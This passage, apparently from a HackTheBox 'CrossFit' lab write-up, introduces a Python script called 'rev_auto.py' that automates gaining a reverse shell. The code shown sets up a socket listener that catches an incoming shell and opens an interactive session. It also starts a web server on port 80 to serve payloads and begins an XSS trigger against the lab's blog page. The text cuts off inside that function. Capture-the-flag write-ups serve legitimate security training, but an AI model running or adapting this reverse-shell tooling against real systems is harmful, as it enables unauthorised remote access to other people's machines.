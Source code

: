 # Auto Reverse Shell

Now, let's automate all the reverse shell!

Here it's

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-10-27-HackTheBox-CrossFit/2021-10-27-HackTheBox-CrossFit%2008:23:43.png)

rev_auto.py

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# Auto Exploit for www-data - CrossFit - HackTheBox

import argparse
import requests
import sys
from threading import Thread
import threading
import http.server
import socket
from http.server import HTTPServer, SimpleHTTPRequestHandler
import os
import re
import socket, telnetlib
from threading import Thread

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target) 
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()
    
# Setting the python web server
def webServer():
    debug = True
    server = http.server.ThreadingHTTPServer(('0.0.0.0', 80), SimpleHTTPRequestHandler)
    if debug:
        print("[+] Starting Web Server in background [+]")
        thread = threading.Thread(target = server.serve_forever)
        thread.daemon = True
        thread.start()
    else:
        print("Starting Server")
        print('Starting server at http://{}:{}'.format('0.0.0.0', 80))
        server.serve_forever()

# Trigger the XSS
def triggerXSS(lhost):
    url = "http://gym-club.crossfit.htb:80/blog-single.php"
```